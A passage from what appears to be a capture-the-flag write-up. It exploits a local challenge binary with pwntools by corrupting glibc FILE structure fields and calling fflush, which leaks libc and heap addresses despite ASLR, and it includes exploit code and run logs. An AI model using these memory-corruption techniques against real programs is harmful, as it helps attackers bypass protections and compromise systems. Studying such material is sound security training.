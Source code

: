 ```python
leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8,b"\x00"))
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x1e8f60
log.info(f"libc = {hex(libc.address)}")
```

Here's an example of the leak with ASLR enabled

```cmd
[+] Starting local process './chall': pid 2580
./xpl.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendlineafter(b"value:", str(value))
[*] leak = 0x7fcdd505ef60
[*] libc = 0x7fcdd4e49000
[*] Switching to interactive mode

```
Great, now we need a heap leak (later, we will know why). We can use the same trick that we used before, with *fflush*, but we will need to write full pointers to the member, not only the LSB, so let's use the *write_addr* helper functions to help us along the way. This function will write an 8-byte ptr to the member supplied (using the variables we declared before).

Let's use the same trick, but we need a ptr to a heap address this time. We can use the main arena address, a pointer on Glibc that will hold a heap address, in my case I use the *top chunk*.

```python
#getting a heap leak
trick(_fileno, 1)
#calculating topchunk address in the main arena
topchunk = libc.address + 0x1ecbe0
log.info(f"top_chunk = {hex(topchunk)}")
write_addr(_IO_write_ptr, topchunk+8)
write_addr(_IO_write_base, topchunk)
write_addr(_IO_read_end, topchunk)

sleep(1)
flush()

heap_leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8, b"\x00"))
log.info(f"heap_leak = {(hex(heap_leak))}")
heap_base = heap_leak - 0x2480
log.info(f"Heap base = {hex(heap_base)}")
```

This will provide us with both libc and heap leaks as below after execution with ASLR enabled:

```cmd
[+] Starting local process './chall': pid 3169
./xpl.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendlineafter(b"value:", str(value))
[*] leak = 0x7f952c29ff60
[*] libc = 0x7f952c08a000
[*] top_chunk = 0x7f952c2a3be0
[*] heap_leak = 0x5651897f3480
[*] Heap base = 0x5651897f1000
[*] Switching to interactive mode
```
